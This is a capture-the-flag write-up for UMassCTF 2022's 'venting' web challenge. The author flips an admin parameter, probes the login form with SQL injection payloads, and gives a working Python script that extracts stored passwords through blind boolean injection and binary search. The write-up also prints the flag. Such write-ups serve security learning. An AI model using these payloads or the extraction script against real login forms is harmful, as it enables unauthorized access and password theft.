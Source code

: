# UMassCTF 2022 - venting
- Write-Up Author: Tarn

- Flag: UMASS{7H35U55Y1MP0573rCr4CK57H3C0D3}

## **Question:**
venting

>Challenge description

Hmmmm. This website is kinda sus... Can you become the imposter and vent towards the flag?

http://34.148.103.218:4446

## Write up

This is the simple website with some input fields. 

![img](./img/1.png)

When I look at the GET request, there is one parameter for verifying admin. I change the admin parameter from False to True. 

![img](./img/2.png)

![img](./img/3.png)

Great, then I get into another redirect URL http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/success.

![img](./img/4.png)


It looks like Auth bypass, therefore I try some SQL injection payloads and find the result is different.

```
user=' or 1 or 0='1&pass=111
```

![img](./img/5.png)

```
user=' or 0 or 0='1&pass=111
```

![img](./img/6.png)

This is the hints that I can guess the user password by checking the True or False on SQL query. 
Finally I write the script to come out the whole password.

```
import requests

url = 'http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/login'
def get_table():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            #payload = f"' or (substr((select sqlite_version()),{i},1)>char({mid})) or 0='1" admin/
            payload = f"' or (substr((select group_concat(Password) from users),{i},1)>char({mid})) or 0='1"
            data = {
                'user':payload,
                'pass':'111'
            }
            url_t = url
            r = requests.post(url=url_t,data=data)
            
            if 'Invalid login' in r.text:
                high = mid
            if "You'll never log in" in r.text:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break

get_table()

```

Bingo! The password is the flag.
![img](./img/7.png)


> UMASS{7H35U55Y1MP0573rCr4CK57H3C0D3}
